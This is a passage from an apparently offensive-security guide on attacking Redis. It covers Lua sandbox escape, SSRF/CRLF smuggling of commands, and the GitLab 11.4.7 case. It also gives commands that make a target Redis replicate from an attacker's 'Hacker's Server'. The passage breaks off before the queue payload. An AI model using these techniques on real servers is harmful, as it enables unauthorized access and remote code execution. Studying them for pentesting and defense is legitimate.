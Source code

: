 <h3>LUA sandbox bypass</h3>

[Here](https://www.agarri.fr/blog/archives/2014/09/11/trying_to_hack_redis_via_http_requests/index.html) you can see that Redis uses the command EVAL to execute Lua code sandboxed. In the linked post you can see how to abuse it using the dotfile function, but [apparently](https://stackoverflow.com/questions/43502696/redis-cli-code-execution-using-eval) this isn't no longer possible.  Anyway, if you can bypass the Lua sandbox you could execute arbitrary commas on the system. Also, from the same post you can see some options to cause DoS.

<h3>Master-Slave Module</h3>

The master redis all operations are automatically synchronized to the slave redis, which means that we can regard the vulnerability redis as a slave redis, connected to the master redis which our own controlled, then we can enter the command to our own redis.

```bash
master redis : 10.10.y.y (Hacker's Server)
slave  redis : 10.10.x.x (Target Vulnerability Server)

#A master-slave connection will be established from the slave redis and the master redis:
redis-cli -h 10.1.0.52 -p 6379
slaveof 10.10.y.y 6379

#Then you can login to the master redis to control the slave redis:
redis-cli -h 10.10.y.y -p 6379
set mykey hello
set mykey2 helloworld
```

<h3>SSRF talking to Redis</h3>

If you can send clear text request to Redis, you can communicate with it as Redis will read line by line the request and just respond with errors to the lines it doesn't understand:

```bash
-ERR wrong number of arguments for 'get' command
-ERR unknown command 'Host:'
-ERR unknown command 'Accept:'
-ERR unknown command 'Accept-Encoding:'
-ERR unknown command 'Via:'
-ERR unknown command 'Cache-Control:'
-ERR unknown command 'Connection:'
```

Therefore, if you find a SSRF vuln in a website and you can control some headers (maybe with a CRLF vuln) or POST parameters, you will be able to send arbitrary commands to Redis.

<h3>Example: Gitlab SSRF + CRLF to Shell</h3>

In Gitlab11.4.7 were discovered a SSRF vulnerability and a CRLF. The SSRF vulnerability was in the import project from URL functionality when creating a new project and allowed to access arbitrary IPs in the form `0:0:0:0:0:ffff:127.0.0.1` (this will access 127.0.0.1), and the CRLF vuln was exploited just adding `%0D%0A` characters to the URL.

Therefore, it was possible to abuse these vulnerabilities to talk to the Redis instance that manages queues from gitlab and abuse those queues to obtain code execution. The Redis queue abuse payload is:

